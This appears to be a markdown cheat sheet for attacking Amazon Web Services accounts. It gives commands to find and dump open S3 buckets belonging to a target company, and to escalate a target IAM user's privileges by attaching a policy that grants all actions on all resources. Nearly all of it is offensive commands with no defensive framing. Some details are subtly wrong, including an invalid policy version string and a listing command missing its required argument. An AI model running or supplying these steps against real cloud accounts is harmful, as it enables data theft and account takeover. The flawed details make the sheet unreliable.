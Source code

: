 ## Cloud hacking cheat sheet

### Amazon

#### Install awscli
```sh
pip3 install awscli
```

#### S3 Bucket Enumeration

##### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
##### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

##### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

##### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

#### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

#### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

#### List users
```sh
aws iam list-users
```

#### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

#### List user policies
```sh
aws iam list-user-policies
```

#### List role policies
```sh
aws iam list-role-policies
```

#### List froup policies
```sh
aws iam list-group-policies
```

#### Create user
```sh
aws iam create-user
```



[<- Back to index](README.md)

---
## License

© 2023 [hidayatcode.xyz](https://www.hidayatcode.xyz/)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`
